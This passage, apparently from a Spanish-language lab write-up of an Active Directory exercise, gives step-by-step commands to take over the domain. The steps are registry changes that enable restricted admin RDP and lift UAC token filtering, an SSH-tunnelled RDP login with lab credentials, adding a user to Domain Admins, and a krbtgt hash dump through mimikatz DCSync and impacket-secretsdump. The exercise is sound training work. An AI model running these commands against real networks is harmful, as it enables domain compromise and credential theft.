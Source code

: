 - Tratamos de conectamos con las credenciales obtenidas víaRDP. Para ello, en la máquina `MS01`, con las credenciales de `mssqlsvc`,  activamos restricted admin mode para poder acceder por RDP como el usuario `CT059` del siguiente modo: 
    ```powershell
    reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
    ```
- A continuación nos conectamos vía RDP. 
    - Hacemos un local port forwarding desde la máquina que tenemos acceso: 
        ```bash
        ssh -NfL 33389:172.16.7.50:3389 htb-student@$target
        ```
    - Nos conectamos vía RDP
        ```bash
        xfreerdp /v:localhost /u:'inlanefreight\CT059' /p:'charlie1' /drive:Shared,/tmp /port:33389
        ```
- Dado que el usuario tiene permisos `GenericAll`, podemos hacer prácticamente lo que queramos. Añadimos al usuario `CT059` a domain admins
    ```powershell
    net group "Domain Admins" CT059 /add /domain
    ```
- Esto nos permite mostrar el contenido del DC
    ```powershell
    type '\\172.16.7.3\C$\Users\Administrator\Desktop\flag.txt'
    ```
- Si ahora tratamos de ejecutar mimikatz o powershell con privilegios elevados aún no podemos, por lo que debemos evitar restricciones cambiando el valor de `LocalAccountTokenFilterPolicy`
    ```powershell
    reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
    ```
- Ahora ya podemos ejecutar mimikatz con privilegios altos y volcar el hash NTML de `krbtgt`
    ```powershell
    privilege::debug
    lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt
    ```
- También hubiéramos podido volcar esta información con `impacket-secretsdump`
    ```bash
    impacket-secretsdump -just-dc-user krbtgt inlanefreight/CT059:charlie1@172.16.7.3
    ```


